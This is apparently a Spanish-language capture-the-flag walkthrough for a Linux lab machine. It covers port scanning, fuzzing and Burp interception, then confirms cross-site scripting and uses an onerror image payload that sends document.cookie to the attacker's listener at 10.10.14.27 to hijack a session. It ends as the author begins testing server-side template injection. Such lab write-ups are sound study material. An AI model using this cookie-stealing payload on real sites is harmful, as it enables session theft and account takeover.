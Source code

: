 #Linux #medium #tecnicas 
### Ping
```python
ping -c 1 10.10.11.12
PING 10.10.11.12 (10.10.11.12) 56(84) bytes of data.
64 bytes from 10.10.11.12: icmp_seq=1 ttl=63 time=71.4 ms

--- 10.10.11.12 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 71.439/71.439/71.439/0.000 ms
```

### TTL 63 = Linux

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 5000 -Pn 10.10.11.12 -oN Scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-08 22:36 EDT
Nmap scan report for 10.10.11.12
Host is up (0.071s latency).
Not shown: 65506 closed tcp ports (reset), 27 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.78 seconds
```

### Enumeración del puerto 80 (http)

![[Pasted image 20240408224546.png]]

![[Pasted image 20240408224608.png]]

### Fuzzing con ffuz
el dominio `/quote` no esta en los directorios de la pagina asi que vamos a investigar  
![[Pasted image 20240408224309.png]]

`quote`
![[Pasted image 20240408224935.png]]

### BurpSuite
vamos a realizar una petición y la interceptamos con burpsuite
![[Pasted image 20240408225150.png]]

`Service`
tenemos 3 service que se estan enviando al servidor. vamos a intentar validarlos enviando una petición a un servidor que tendremos a la escucha
```python
<img+src='http://10.10.14.27/test.png'>
```
![[Pasted image 20240408231842.png]]

### Python3 server
obtenemos la petición que hemos realizado por lo cual podemos decir que esta web es vulnerable a `XSS`
![[Pasted image 20240408232124.png]]

### Cookie
vamos a usar este payload para capturar la cookie de session. 
```python
<img src=x onerror=this.src='http://10.10.14.27/?c='+document.cookie> # URLencode
```
![[Pasted image 20240408234641.png]]

`cookie`
![[Pasted image 20240408234800.png]]

agregamos la cookie en el `cookie-editor`
![[cookie.png]]

### dashboad

![[Pasted image 20240408235954.png]]

`Generate Invoice`
![[Pasted image 20240408235845.png]]

`codigo ID 0255314324`
obtenemos un ID Invoice 
![[Pasted image 20240408235903.png]]

`Generator QR`
ingresamos el ID que hemos obtenido anteriormente
![[Pasted image 20240409000254.png]]

### SSTI (Server-Side Template Injection)

![[Pasted image 20240409001851.png]]



`Burpsuite`
interceptamos la petición con burpsuite
![[Pasted image 20240409001810.png]]